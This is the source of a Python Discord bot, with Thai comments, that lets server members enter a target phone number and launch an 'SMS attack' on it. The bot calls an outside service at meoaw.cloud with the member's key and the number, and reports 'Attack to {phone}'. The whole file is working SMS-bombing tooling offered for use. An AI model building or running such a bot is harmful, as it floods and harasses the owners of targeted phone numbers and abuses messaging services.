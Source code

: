 import interactions
import platform
import os
import requests
from interactions import *

# Config

token = "" # ใส่โทเคนบอท

guild_id = "" # ใส่ไอดีเซิฟเวอร์ Discord

meoaw = interactions.Client(token=token, intents=Intents.ALL)

@interactions.listen()
async def on_ready():

    if platform.system() == 'Windows':

        os.system('cls & title Meoaw Sms ( v2 )')

        print(" ")

        print("Meoaw Sms ( v2 )")

        print(" ")

    else:

        os.system('cls')

        print(" ")

        print("Meoaw Sms ( v2 )")

        print(" ")

@interactions.slash_command(name="sms", description="ยิงเบอร์แรงๆ ( By Meoaw )", scopes=[guild_id])
async def sms(ctx: InteractionContext):

    start = Button(
        style=ButtonStyle.GREEN,
        label="เริ่มยิง",
        custom_id="start",
    )

    await ctx.send("กดปุ่ม `เริ่มยิง` เพื่อใช้งาน", components=[start], ephemeral=True)

@interactions.listen()
async def on_component(event: BaseComponent):
    ctx = event.ctx

    match ctx.custom_id:

        case "start":

            sms_form = Modal(

            ShortText(

                label="📲 เบอร์เป้าหมาย",
                custom_id="phone",
                min_length=3,
                max_length=10,

            ),

            title="🔫 ระบบยิงเบอร์ ( SMS v2 )",

            )
            
            await ctx.send_modal(modal=sms_form)

            modal_ctx: ModalContext = await ctx.bot.wait_for_modal(sms_form)

            phone = modal_ctx.responses["phone"]

            phone_embed = interactions.Embed(description=f"กำลังยิงไปที่ `{phone}`", color=0x98e8f5)

            await modal_ctx.send(embeds=phone_embed, ephemeral=True)

            meoaw_g3 = requests.get(f"https://meoaw.cloud/get/user/{ctx.author.id}")

            user03 = meoaw_g3.json() 

            key = user03["Key"]

            name = user03["Id"]

            meoaw_a = requests.get(f"https://meoaw.cloud/attack/sms/{name}/{key}/{phone}")

            print(" ")

            print(meoaw_a.json())

            print(" ")

            print(f"Attack to {phone} !")

            print(" ")

meoaw.start()

# Code by Meoaw Hub ( Last Update: 1/06/66 7:28 )
